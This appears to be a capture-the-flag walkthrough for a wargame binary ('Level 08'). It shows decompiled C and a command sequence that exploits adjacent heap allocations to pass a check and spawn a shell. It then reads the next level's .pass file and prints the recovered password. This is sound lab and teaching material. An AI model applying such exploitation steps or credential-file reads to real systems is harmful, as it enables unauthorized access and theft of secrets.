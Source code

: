 # Level 08 Walkthrough

## Binary analysis

The binary manages two pointers, `auth` and `service`, and processes commands: `auth`, `reset`, `service`, and `login`. The goal is to manipulate the `auth` structure so that the check `*(auth + 0x20) != 0` passes, which allows us to get a shell when issuing the `login` command.

### Key decompiled code

- **auth**
    ```c
    if (strncmp(buf, "auth ", 5) == 0) {
        auth = malloc(4);
        *auth = 0;
        // ...
        strcpy(auth, user_input); // possible overflow
    }
    ```
- **service**
    ```c
    if (strncmp(buf, "service", 7) == 0) {
        service = strdup(user_input); // can overflow into auth
    }
    ```
- **login**
    ```c
    if (strncmp(buf, "login", 5) == 0) {
        if (*(auth + 0x20) != 0) {
            system("/bin/sh");
        } else {
            printf("Password:\n");
        }
    }
    ```
- **main loop**
    ```c
    while (fgets(buf, 0x80, stdin)) {
        // handle commands: auth, reset, service, login
    }
    ```

## Exploitation

We use the `auth` command to allocate the structure, then the `service` command with a long string to overflow and set the 0x20th byte of the `auth` structure to a non-zero value. Finally, we use the `login` command to trigger the shell.

```c
if (*(auth + 0x20) != 0) {
    system("/bin/sh");
}
```

However, the `auth` buffer is only 4 bytes long, so we cannot reach offset 0x20 directly with the `auth` command. Instead, we use the `service` command, which copies our input into a buffer that is allocated right after `auth` in memory. By sending a string of 32 characters (the padding) with the `service` command, we overflow the `auth` buffer and set the byte at offset 0x20 to a non-zero value (for example, 'A').

**Payload:**

- Send `auth ` to allocate the buffer.
- Send `service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA` (32 'A's) to overflow and set the 0x20th byte.
- Send `login` to trigger the shell.

This padding ensures that the check `*(auth + 0x20) != 0` will succeed, giving us a shell.

Example commands:

```
./level8
auth 
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
login
cat /home/user/level9/.pass
```

## Result

After running the exploit, we get the password for level9:

```
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
